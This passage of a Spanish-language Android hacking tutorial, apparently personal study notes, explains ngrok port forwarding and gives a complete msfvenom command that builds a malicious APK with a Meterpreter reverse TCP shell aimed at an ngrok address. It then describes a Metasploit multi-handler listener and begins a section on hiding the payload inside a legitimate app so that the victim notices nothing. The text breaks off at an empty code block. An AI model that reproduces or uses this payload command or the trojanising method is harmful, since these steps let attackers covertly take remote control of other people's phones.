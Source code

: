 ![ngrokWeb](/images/apuntes/HackingAndroid/ngrokWeb.png)

* Forwarding => Nos indica la dirección que tenemos que poner en nuestro payload para que se redireccione a nuestra IP local y el puerto que le indicamos (donde previamente estaremos a la escucha con el multi-handler).
* Connections => Las conexiones que hemos recibido.

Con **"msfvenom"** podemos crear una APK maliciosa, para ello ejecutamos el siguiente comando.  
```msfvenom -p android/meterpreter/reverse_tcp LHOST=0.tcp.ngrok.io LPORT=17547 -o reverse.apk```

* -p => Indica que tipo de payload queremos usar.
  * android/meterpreter/reverse_tcp => Es de android, que sea mediante **"Metasploit"** con una sesión de **"meterpreter"** y una shell reversa por TCP.
* LHOST => Debemos indicarle la dirección que nos ha dado ngrok (sin el **"tcp://"** ni el puerto **":17547"**).
* LPORT => Le pasamos el puerto que nos ha dado ngrok (solo el puerto).
* -o => Le indicamos el nombre del fichero saliente que vamos a crear.

![msfvenom](/images/apuntes/HackingAndroid/msfvenomBasic.png)

Una vez hecho todo esto solo deberíamos dejar en escucha un multi-handler de metasploit escuchando en todas las IPs (0.0.0.0) y el puerto que le dijimos nosotros a ngrok (el local).
>Todo esto lo vamos a ver más en detalle en el apartado [Ejecución de exploit en la víctima](#ejecucion-de-exploit-en-la-victima)

<a name="crear-apk-maliciosa-original"></a>
## Crear APK maliciosa "original"

Lo primero explicar esto, cuando digo APK maliciosa **"original"**, lo que vamos a hacer es:
* Obtener una APK legítima y real, de donde queramos...
* "Destriparla"
* Modificarla para colocar dentro nuestro payload (y que la app siga ejecutándose normalmente sin que el usuario pueda detectar nada)
* Finalmente volver a compilarla.

### Empezamos
```